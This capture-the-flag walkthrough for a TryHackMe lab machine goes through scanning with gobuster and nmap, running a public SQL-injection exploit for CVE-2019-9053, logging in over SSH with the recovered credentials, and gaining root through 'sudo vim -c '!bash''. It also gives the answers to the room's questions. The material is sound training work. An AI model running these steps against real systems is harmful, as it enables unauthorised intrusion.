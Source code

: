 # [SimpleCTF-THM]()

Deploy the machine and attempt the questions!

---------

# Scanning Steps :

## STEP 1 :

**APACHE SETUP SOURCE CODE**

Found **robots.txt**

```html
User-agent: *
Disallow: /


Disallow: /openemr-5_0_1_3 
```

Scanning Paths

```bash
gobuster -u $IP -w .txt

2022/02/23 18:06:06 Starting gobuster
=====================================================
/simple (Status: 301)
```

Found **SIMPLE** **CMS**

Rescanning

```bash
gobuster -u $IP/simple -w .txt

/admin (Status: 301)
/assets (Status: 301)
/doc (Status: 301)
/lib (Status: 301)
/modules (Status: 301)
/tmp (Status: 301)
/uploads (Status: 301)
```

Found **Admin** path **301**


## STEP 2 :

Scanning Open Ports

```bash
nmap -sC -sV $IP


Starting Nmap 7.80 ( https://nmap.org ) at 2022-02-23 18:08 CET
Nmap scan report for 10.10.109.159
Host is up (0.092s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.52.185
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Unix
```
Found open ports :

**FTP 21 is Open.**

**SSH 2222 is Open**

**HTTP 80**

1) How many services are running under port 1000?

**TCP/UDP - 2**



2) What is running on the higher port?

**SSH** Port **2222**

---------

# Exploiting Steps :

Found **[SQL injection](https://www.exploit-db.com/exploits/46635)** on the **Simple CMS**
in **Exploit-db**

## STEP 1 :

Using exploit script 

```bash
exploit.py -u $IP -w x.txt 
Found Username : mitch
Found Password : secret
```

3) What's the CVE you're using against the application? 

**[CVE-2019-9053](https://www.exploit-db.com/exploits/46635)**

4) To what kind of vulnerability is the application vulnerable?

**sqli**

5) What's the password?

**secret**

6) Where can you login with the details obtained?

**SSH**

## STEP 1 :

Connecting to **SSH**

```bash
ssh mitch@$IP -p 2222
password :

$ cd /home
$ ls

mitch sunpath

$ cd mitch
$ ls
user.txt
```

7) Is there any other user in the home directory? What's its name?

**sunpath**

**FOUND USER FLAG**

## STEP 2 :

Accessing as **ROOT**

```bash
$ sudo -l

can access
WITHPASSWD vim
```



8) What can you leverage to spawn a privileged shell?

**vim**

```bash
$ sudo vim -c '!bash'
password :

# whoami
root
# cd /root
# ls
root.txt
```

**FOUND ROOT FLAG**
